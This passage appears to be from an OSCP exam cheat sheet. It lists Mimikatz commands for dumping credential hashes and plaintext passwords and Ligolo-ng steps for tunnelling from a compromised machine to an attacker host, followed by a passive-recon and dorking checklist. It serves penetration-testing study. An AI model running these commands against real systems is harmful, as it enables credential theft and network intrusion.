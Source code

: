 ## Mimikatz

```powershell
privilege::debug
sekurlsa::logonpasswords #hashes and plaintext passwords
lsadump::sam
lsadump::lsa /patch #both these dump SAM

#OneLiner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

```

## Ligolo-ng

```bash
#Creating interface and starting it.
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

#Kali machine - Attacker machine
./proxy -laddr <LHOST>:9001 -selfcert

#windows or linux machine - compromised machine
./agent -connect <LHOST>:9001 -ignore-cert

#In Ligolo-ng console
session #select host
ifconfig #Notedown the internal network's subnet
start #after adding relevent subnet to ligolo interface

#Adding subnet to ligolo interface - Kali linux
sudo ip r add <subnet> dev ligolo

```



# Recon and Enumeration

- OSINT OR Passive Recon
    
    <aside>
    💡 Not that useful for OSCP as we’ll be dealing with internal machines
    
    </aside>
    
    - whois: `whois <domain>` or `whois <domain> -h <IP>`
    - Google dorking,
        - site
        - filetype
        - intitle
        - GHDB - Google hacking database
    - OS and Service Information using [searchdns.netcraft.com](https://searchdns.netcraft.com)
    - Github dorking
        - filename
        - user
        - A tool called Gitleaks for automated enumeration
    - Shodan dorks
        - hostname
        - port
        - Then gather infor by going through the options
    - Scanning Security headers and SSL/TLS using [https://securityheaders.com/](https://securityheaders.com/)
    